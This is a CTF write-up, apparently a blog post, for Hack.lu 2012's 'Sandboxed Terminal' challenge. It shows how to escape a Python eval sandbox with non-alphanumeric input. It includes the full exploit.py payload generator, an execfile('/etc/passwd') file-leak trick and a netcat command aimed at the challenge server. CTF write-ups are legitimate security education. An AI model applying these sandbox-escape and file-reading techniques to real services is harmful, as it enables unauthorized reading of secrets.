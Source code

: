 ```yaml
---
title: '[writeup] Hacklu 2012 – Challenge #13 &#8211; The Sandbox Terminal'
author: w00d
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358964
kopa_newsmixlight_total_view:
  - 1
category: ctf - clgt crew
tags:
  - '2012'
  - CTF
  - Hacklu
---
```

**Solved by w00d @ clgt  
***Thanks **g4mm4** for giving many suggestions and draft the first version of the exploit  
*

> 13 &#8211; The Sandboxed Terminal (400)
> 
> Since the zombie apocalypse started people did not stop to ask themselves how the whole thing began. An abandoned military base may lead to answers but after infiltrating the facility you find yourself in front of a solid steel door with a computer attached. Luckily this terminal seems to connect to a Python service on a remote server to reduce load on the small computer. While your team managed to steal the source, they need your Python expertise to hack this service and get the masterkey which should be stored in a file called key.
> 
> https://ctf.fluxfingers.net:2076/c7238e81667a085963829e452223b47b/sandbox.py

In this ctf, I bumped into a few python challenges. Though having been using it for a while, I&#8217;m still a novice and pretty much ill-prepared, it took me a lot of time to read articles about python security. There are many interesting ones which I might write in a separate blog, however they do not help me much to solve this challenge, the only thing they help is to keep me motivated.

The python program consists of two parts:

- First part is the Detangle class which basically make a &#8220;sandbox&#8221; environment:

1.  You can not import anything.
2.  You can neither use &#8220;open&#8221; nor &#8220;file&#8221; command.
3.  It prints some nice debug information about what python command is executed and their arguments.

- Second part allows you to input 3 params: num1, num2 and operator. There are two regular expressions to check your input:

<pre class="brush: plain; title: ; notranslate" title="">num_pattern = re.compile(r'^[d]{0,4}$')
operator_pattern = re.compile(r'^[W]+$')
...
if not num_pattern.match(num1) or not num_pattern.match(num2):
    raise SystemExit('Number rejected')
if not operator_pattern.match(operator) or len(operator) &gt; 1900:
    raise SystemExit('Operator rejected')
</pre>

1.  num1, num2 should only be number, 4 digits at most.
2.  operator should not contain any alphanumeric characters and its length must be at most 1900.

These input will be fed into some eval command as follow:

<pre class="brush: plain; title: ; notranslate" title="">operator = eval(operator) if "'" in operator else operator
print(eval(num1 + operator + num2))
</pre>

For example, you can input &#8220;1&#8243; , &#8220;2&#8243; , &#8220;+&#8221;. The program will return &#8220;3&#8243;, simple as that.

Obviously, if someone tells you to exploit this program, first is to look at &#8220;eval&#8221; (i.e. &#8220;evil&#8221;) and try to exploit that. But it&#8217;s a difficult task because you can&#8217;t bypass the two regular expressions and input any python code, recall that you can only input number or non-alphanumberic character.

I tried several attempts and failed including some silly: trying to write a valid python code using unicode character, trying to overflow eval, trying to exploit Detangle, find a 0-day/1-day of re.match, ..  
But failures teach you some lessons. I noticed that &#8220;operator&#8221; is eval-ed twice. That means after the first eval, we may be able to convert some non-alphanumberic character into python code and get it executed on the next one.

I started with this gadget: s = `"(''=='')+(''=='')"`(inside are two single quotes). Run eval(s) in a python terminal will return you number &#8220;2&#8243;. Using this gadget/similar kind we typically can create any number. Progress: 25% !

Now what about character ? It turned out that I can use backstick : \` \` as repr() which can give me some string that contains alpha-character, such as : `` `(''=='')` `` => &#8220;True&#8221;, `` `(''!='')` `` => &#8220;False&#8221;, moreover I can access each single character using square bracket : `` `(''=='')`[1] `` => &#8216;r&#8217;, or even better `` `'xaa'`[3] `` => &#8216;a&#8217;. We now can create any of these:** &#8216;abcdefxTruFls&#8217;**. Progress: 50% !

I stopped looking at gadget, and started looking at how to bypass the Detangle class. It&#8217;s not hard as it look, though we can&#8217;t use &#8220;open&#8221; or &#8220;file&#8221; to open a file, can&#8217;t import anything, we can still use the built-in **&#8220;execfile&#8221;**. It does not allow us to run abitrary command but we can leak some info about the content of a file like this:

> >>> execfile(&#8220;/etc/passwd&#8221;)  
> Traceback (most recent call last):  
> File &#8220;&#8221;, line 1, in  
> File &#8220;/etc/passwd&#8221;, line 1  
> root:x:0:0:root:/root:/bin/bash  
> ^  
> SyntaxError: invalid syntax

Progress: 75% !!!!! \*\* so excited \*\*

I need to read the file &#8216;key&#8217; which makes the payload: &#8220;**+execfile(&#8216;key&#8217;)+**&#8220;. As you can see, It contains &#8220;k&#8221;,&#8221;y&#8221;,&#8221;i&#8221; that is not in my &#8220;magic&#8221; list. Luckily the force is with me, 5 minutes after seeing this problem, I come up with this awesome gadget: `"%c"%(107)` => &#8220;k&#8221;. Any character can be generated using this gadget, however producing the number 107 can consume a lot of characters if done naively.

The last thing is to make the payload as short as possible because the operator length is limited at 1900. Putting everything together, I am able to produce a 1650-bytes payload, far smaller than the limit! Now see how it work:

> python exploit.py | nc ctf.fluxfingers.net 2060  
> &#8230;  
> Traceback (most recent call last):  
> File &#8220;./sandbox.py&#8221;, line 77, in  
> print(eval(num1 + operator + num2))  
> File &#8220;./sandbox.py&#8221;, line 45, in \_\_call\_\_  
> result = self.orig(\*args, \**kwargs)  
> File &#8220;&#8221;, line 1, in  
> File &#8220;./sandbox.py&#8221;, line 45, in \_\_call\_\_  
> result = self.orig(\*args, \**kwargs)  
> File &#8220;key&#8221;, line 1, in  
> dafuq\_how\_did\_you\_solve\_this\_nonalpha_thingy  
> NameError: name &#8216;dafuq\_how\_did\_you\_solve\_this\_nonalpha_thingy&#8217; is not defined

Mission accomplished ! Beer time =]

**exploit.py** source code:

<pre class="brush: plain; title: ; notranslate" title="">def makenumsmall(d):
	gadget = "(''=='')"
	rs = gadget

	if (d==0): return rs+"-"+rs
	if (d==1): return rs+"*"+rs

	for i in range(1,d): rs += "+(''=='')"
	return rs

def makenum(d):
	if (d&lt;5): return makenumsmall(d)
	a = bin(d)[2:]
	index = len(a) - 1
	s = ""
	for c in a:
		if c == '1':
			s+= "("+makenumsmall(1)+"&lt;&lt;"+makenumsmall(index)+")+"
		index-=1
	return s[0:-1]

def makechar(line):
	return "('%'+`'"+chr(0xcc)+"'`["+str(makenum(3))+"])["+str(makenum(0))+":"+str(makenum(4))+"]%(" + makenum(line) + ")"

gd = {}

gd['x'] = "`'"+chr(0xcc)+"'`["+makenum(2)+"]"
gd['a'] = "`'"+chr(0xaa)+"'`["+makenum(3)+"]"
gd['b'] = "`'"+chr(0xbb)+"'`["+makenum(3)+"]"
gd['c'] = "`'"+chr(0xcc)+"'`["+makenum(3)+"]"
gd['d'] = "`'"+chr(0xdd)+"'`["+makenum(3)+"]"
gd['e'] = "`'"+chr(0xee)+"'`["+makenum(3)+"]"
gd['f'] = "`'"+chr(0xff)+"'`["+makenum(3)+"]"

a = "+execfile('key')+"
solo = [ord(i) for i in a]
#print solo
_sum = ''
import re
for line in solo:
	if chr(line) in gd:
		_gad = gd[chr(line)]
	elif chr(line) == "'":
		_gad = "'\''"
	elif re.match("W",chr(line)):
		_gad = "'"+chr(line)+"'"
	else:
		_gad = makechar(line)
	_sum += "+" + _gad

_sum = _sum[1:]
#print len(_sum)
#print eval(eval(_sum))
print "1n1n"+_sum
</pre>